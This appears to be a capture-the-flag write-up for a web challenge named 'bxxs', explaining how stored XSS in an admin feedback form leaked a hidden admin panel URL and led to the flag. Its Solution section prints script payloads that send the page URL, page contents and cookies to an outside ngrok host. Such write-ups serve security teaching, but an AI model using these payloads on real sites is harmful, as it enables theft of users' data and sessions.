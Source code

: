 ```yaml
---
description: XSS leads to information leakage of hidden endpoint and authentication bypass.
---
```


# bxxs

## Problem

We've made some new epic updates to our website. Could you send us some feedback on it?

## Solution

We are given an endpoint that allows us to "Send a feedback to admin". I tried submitting URLs but these had no effect.

![](../.gitbook/assets/image%20%288%29.png)

Later, I found that we could submit arbitrary HTML that would be rendered by the admin's browser. This could be verified by submitting the following and catching the HTTP request:

```markup
<script> var i = new Image(); i.src = "http://8a8a8026deac.ngrok.io/"; </script>
```

It is then trivial to obtain more information from the victim's browser. 

We still don't know how exactly our submitted HTML is handled. Where is it rendered and in what context? To answer that question, I tried the following payload to get the page URL, contents and cookie.

```markup
<script> var i = new Image(); i.src = "http://8a8a8026deac.ngrok.io/?url=" + escape(window.location.href); </script>
<script> var i = new Image(); i.src = "http://8a8a8026deac.ngrok.io/?doc=" + escape(document.body.innerHTML); </script>
<script> var i = new Image(); i.src = "http://8a8a8026deac.ngrok.io/?cookie=" + escape(document.cookie); </script>
```

`window.location.href` gives us the full URL of the browsing context, `document.body.innerHTML` gives us the page contents, and `document.cookie` gives us any cookies that could be read by JavaScript \(those without the HttpOnly flag set\).

From the output, it appeared that:

* The page URL is `http://0.0.0.0/Secret_admin_cookie_panel`
* Our submitted HTML was the only content present on the page.
* JavaScript could not read any cookies.

My teammate rainbowpigeon then visited the `/Secret_admin_cookie_panel` endpoint and found that this page returned a `Set-Cookie` header for a new cookie with the HttpOnly flag set. This was the "admin cookie" we needed.

![](../.gitbook/assets/image%20%285%29.png)

My teammate lim\_yj found that there is a `/flag` endpoint, previously inaccessible without the appropriate cookie.

Visiting the page again with the admin cookie set gives us the flag.

![](../.gitbook/assets/image%20%287%29.png)



